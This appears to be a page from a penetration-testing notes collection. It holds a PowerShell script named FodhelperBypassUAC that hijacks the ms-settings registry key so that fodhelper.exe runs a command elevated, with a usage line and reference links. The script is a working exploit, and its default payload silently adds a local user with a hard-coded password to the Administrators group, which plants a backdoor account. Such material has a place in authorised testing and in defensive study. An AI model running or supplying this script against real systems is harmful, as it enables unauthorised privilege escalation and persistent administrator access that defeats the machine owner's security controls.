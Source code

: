 # fodhelper

Usage: `. .\FodhelperBypassUAC.ps1; FodhelperBypassUAC [-custom COMMAND]`

```bash
function FodhelperBypassUAC(){ 

Param (    
 [String]$custom = "cmd.exe /c net user kashz iamR00t123! /add && net localgroup administrators kashz /add" #default
      )
 
# Registry Additions
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $custom -Force
 
# Bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

# Cleanup
Start-Sleep 5
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}
```

## Reference

* [pentestlab.blog/uac-bypass-fodhelper/](https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/)
* [tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)